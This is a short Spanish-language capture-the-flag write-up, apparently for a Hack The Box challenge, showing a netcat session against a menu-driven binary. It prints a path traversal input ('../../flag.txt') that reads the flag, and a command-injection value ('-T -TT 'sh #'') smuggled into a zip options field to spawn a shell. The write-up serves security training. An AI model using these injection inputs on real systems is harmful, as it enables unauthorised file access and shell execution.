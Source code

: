 ##### Solución

Para este reto se exponía una conexión a un host en donde se ofrecían diferentes opciones para interactuar con el binario disponible.

De acuerdo a la interacción se encontraron 2 formas de resolver el reto, mediante un **Path traversal** haciendo uso de la ejecución de `cat` disponible.

```bash
└─$ nc 138.68.183.64 31076

[*] Directory to work in: tHV1tdX82QcPllglF8wa6AhU24FRZS4S

Component List:

+===============+
|               |
|  1. Head  🤖  |
|  2. Torso 🦴   |
|  3. Hands 💪  |
|  4. Legs  🦵   |
|               |
+===============+

[*] Choose component: 1

[*] Sub-directory to work in: tHV1tdX82QcPllglF8wa6AhU24FRZS4S/Head


Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Read artifact     (cat ./<name>)
4. Compress artifact (zip <name>.zip <name> <options>)
5. Change directory  (cd <dirname>)
6. Clean directory   (rm -rf ./*)
7. Exit

[*] Choose action: 3


Insert name you want to read: ../../flag.txt
HTB{GTFO_4nd_m4k3_th3_b35t_4rt1f4ct5}
```

Y también por medio de la utilidad expuesta de `zip` se encuentra un [GTFOBin](https://gtfobins.github.io/gtfobins/zip/#shell) el cuál permite la invocación de una shell.

```bash
Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Read artifact     (cat ./<name>)
4. Compress artifact (zip <name>.zip <name> <options>)
5. Change directory  (cd <dirname>)
6. Clean directory   (rm -rf ./*)
7. Exit

[*] Choose action: 4


Insert <name>.zip:
Insert <name>: /etc/passwd
Insert <options>: -T -TT 'sh #'
```